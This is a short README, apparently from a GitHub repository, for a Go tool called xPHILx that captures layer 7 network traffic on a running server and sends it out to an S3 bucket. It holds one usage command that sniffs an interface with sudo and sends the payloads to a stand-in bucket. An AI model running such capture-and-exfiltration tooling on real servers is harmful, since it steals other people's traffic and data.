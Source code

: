 # xPHILx

![xPHILx](xphilx.jpg =250x250)

## Introduction

Exfiltrate layer 7 payloads to S3 from a running server

## Contents

- [Usage](#usage)
- [Credits](#credits)

## Usage

```bash
sudo go run main.go -i lo0 -b s3://fake-bucket/
```

## Credits

- Photo from @cctildef on IG
- A lot of copy pasta from: https://github.com/google/gopacket/blob/master/examples/httpassembly/main.go
